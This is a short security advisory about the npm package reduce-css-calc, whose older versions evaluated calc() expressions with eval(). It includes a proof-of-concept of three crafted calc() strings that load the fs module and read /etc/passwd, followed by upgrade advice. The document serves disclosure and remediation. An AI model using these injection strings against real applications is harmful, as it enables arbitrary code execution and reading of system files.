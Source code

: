 ## Overview
`reduce-css-calc` is a package that reduces CSS calc() function to the maximum. Affected versions of the package used `evail()` for evaluation the expression, allowing the attacker to gain arbitrary code execution via specially crafted input.

## Example
The [issue](https://gist.github.com/ChALkeR/415a41b561ebea9b341efbb40b802fc9) was reported by [ChALkeR](https://github.com/ChALkeR) and demonstrated by his [example](https://gist.github.com/ChALkeR/415a41b561ebea9b341efbb40b802fc9) below:

```
const reduceCSSCalc = require('reduce-css-calc');
console.log(reduceCSSCalc(`calc(                       (Buffer(10000)))`));
console.log(reduceCSSCalc(`calc(                       (global['fs'] = require('fs')))`));
console.log(reduceCSSCalc(`calc(                       (fs['readFileSync']("/etc/passwd", "utf-8")))`));
```

## Remediation
Upgrade `reduce-css-calc` version 1.2.5 or greater.

## References
- https://gist.github.com/ChALkeR/415a41b561ebea9b341efbb40b802fc9
- https://github.com/MoOx/reduce-css-calc/blob/master/CHANGELOG.md#125---2016-08-22
